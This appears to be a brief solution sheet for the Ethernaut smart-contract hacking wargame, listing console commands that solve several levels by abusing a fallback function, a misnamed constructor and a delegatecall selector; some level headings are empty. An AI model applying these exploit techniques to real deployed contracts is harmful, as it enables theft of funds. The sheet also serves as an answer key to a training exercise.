 1. Hello Ethernaut
```
contract.info()

contract.info1()

contract.info2()

contract.infoNum()

contract.info42()

contract.theMethodName()

contract.method7123949()

contract.password()

contract.authenticate("ethernaut0")

```
---
2. Fallback
```
contract.contribute.sendTransaction({from: player, value: toWei("0.0001")})

contract.sendTransaction({from: player, value: toWei(0.0000001)})

contract.withdraw()
```
---
3. Fallout
```
contract.Fal1out.sendTransaction({from: player, value: toWei("0.00001")})
```
4. Coin Flip

---
5. Telephone

---
6. Token

---
7. Delegation
```
contract.sendTransaction({from: player, to: this, value:0, data: "0xdd365b8b" })
```

---
